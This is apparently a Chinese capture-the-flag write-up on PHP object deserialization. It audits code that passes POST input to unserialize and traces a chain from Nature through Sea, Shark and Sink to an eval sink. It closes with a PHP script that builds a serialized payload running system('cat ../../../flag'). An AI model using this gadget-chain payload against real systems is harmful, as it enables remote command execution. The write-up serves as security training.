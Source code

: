 ```
    {
        echo $this->sea->see;
    }
}

if ($_POST['nature']) {
    $nature = unserialize($_POST['nature']);
}
```

进行代码审计，我们在Sink类中发现eval函数，可以进行命令执行，所以我们需要触发_toString魔术方法

我们往下找，在Shark类中发现echo可以打印变量触发\_toString，接下来我们就是要触发_invoke

我们在Sea类中发现$sea_ani()可以用来触发_invoke，接下来我们就是要触发\_get,

我们在nature类中发现一个未定义变量可以触发_get

由于类中存在私有属性，我们先把私有属性变为公有属性

```
<?php
highlight_file(__FILE__);

class Sink
{
    private $cmd = 'system("cat ../../../flag");';

}

class Shark
{
   public $word ;

}

class Sea
{
    public $animal;

}

class Nature
{
    public $sea;

}
$a=new Nature();
$a->sea=new Sea();
$a->sea->animal=new Shark();
$a->sea->animal->word=new Sink();
echo (serialize($a));
```
